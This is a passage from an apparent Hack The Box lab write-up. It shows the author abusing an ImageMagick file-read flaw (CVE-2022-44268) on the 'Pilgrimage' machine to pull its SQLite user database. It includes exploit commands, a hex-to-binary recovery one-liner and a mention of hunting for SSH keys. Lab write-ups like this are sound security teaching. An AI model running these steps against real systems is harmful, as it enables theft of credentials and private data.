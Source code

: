 
I’ll try to grab SSH keys for emily, but fail. There’s no other user where it
seems reasonable that they might have a `.ssh` directory based on their home
directories.

#### Database

The source code shows that the site is running off a SQLite database. For
example, in `login.php`:

    
    
      $db = new PDO('sqlite:/var/db/pilgrimage');
      $stmt = $db->prepare("SELECT * FROM users WHERE username = ? and password = ?");
      $stmt->execute(array($username,$password));
    

I’ll try to grab that file:

    
    
    oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /var/db/pilgrimage --output pngout.png
    oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdbb27cce4.png
    Traceback (most recent call last):
      File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
        main()
      File "/media/sf_CTFs/hackthebox/pilgrimage-10.10.11.219/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
        decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                                 ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaf in position 27: invalid start byte
    

That makes sense, as it’s binary data and the script seems to be expecting
only ASCII text.

I could manually get the data out of the file. I’ll download the file from the
site, and with a little playing around with `grep`, I can isolate just the
lines with the hex data, and then use `xxd` to convert it back to binary:

    
    
    oxdf@hacky$ identify -verbose 655cdbb27cce4.png | grep -Pv "^( |Image)"  | xxd -r -p > pilgrimage.sqlite
    oxdf@hacky$ file pilgrimage.sqlite
    pilgrimage.sqlite: SQLite 3.x database, last written using SQLite version 3034001, file counter 943, database pages 5, cookie 0x4, schema 4, UTF-8, version-valid-for 943
    

### Database Enumeration

I’ll open the database with `sqlite3`:

    
    
    oxdf@hacky$ sqlite3 pilgrimage.sqlite 
    SQLite version 3.37.2 2022-01-06 13:25:41
    Enter ".help" for usage hints.
    sqlite>
    